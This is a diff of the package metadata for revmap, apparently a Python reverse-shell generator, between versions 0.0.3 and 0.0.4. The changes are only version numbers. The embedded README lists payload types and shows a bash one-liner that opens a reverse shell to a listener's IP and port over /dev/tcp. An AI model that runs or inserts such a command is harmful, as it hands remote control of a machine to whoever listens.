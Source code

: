 ### Comparing `revmap-0.0.3/revmap.egg-info/PKG-INFO` & `revmap-0.0.4/revmap.egg-info/PKG-INFO`

 * *Files 2% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: revmap
-Version: 0.0.3
+Version: 0.0.4
 Summary: Tool that generates reverse shell in multiple languages and encodes
 Home-page: https://github.com/joaoviictorti/revmap
 Author: joaoviictorti (viictorjj)
 Author-email: joaovictorti08@gmail.com
 License: MIT License
 Keywords: revshell shell python security
 Classifier: Development Status :: 5 - Production/Stable
@@ -68,15 +68,15 @@
 ```
 Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
 ```yaml
  ___ ___ _ _ _____ ___ ___ 
 |  _| -_| | |     | .'| . |
 |_| |___|\_/|_|_|_|__,|  _|
                       |_|  
-        v0.0.1 - @joaoviictorti 
+        v0.0.4 - @joaoviictorti 
 
 options:
   --h, --help            show this help message and exit
   --version             show program's version number and exit
   --ip IP                Insert ip
   --port PORTA           Insert port
   --payload {bash,python,powershell,nc,php,perl,ruby,telnet,xterm,mkfifo,java,golang} Insert payload
@@ -96,15 +96,15 @@
 ```console
 revmap --ip 192.168.4.160 --port 8080 --payload bash
 
  ___ ___ _ _ _____ ___ ___ 
 |  _| -_| | |     | .'| . |
 |_| |___|\_/|_|_|_|__,|  _|
                       |_|  
-        v0.0.1 - @joaoviictorti 
+        v0.0.4 - @joaoviictorti 
                                                
 
 bash -c 'exec bash -i &>/dev/tcp/192.168.4.160/8080 <&1'
 ```
 
 
 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
```

#### html2text {}

```diff
@@ -1,8 +1,8 @@
-Metadata-Version: 2.1 Name: revmap Version: 0.0.3 Summary: Tool that generates
+Metadata-Version: 2.1 Name: revmap Version: 0.0.4 Summary: Tool that generates
 reverse shell in multiple languages and encodes Home-page: https://github.com/
 joaoviictorti/revmap Author: joaoviictorti (viictorjj) Author-email:
 joaovictorti08@gmail.com License: MIT License Keywords: revshell shell python
 security Classifier: Development Status :: 5 - Production/Stable Classifier:
```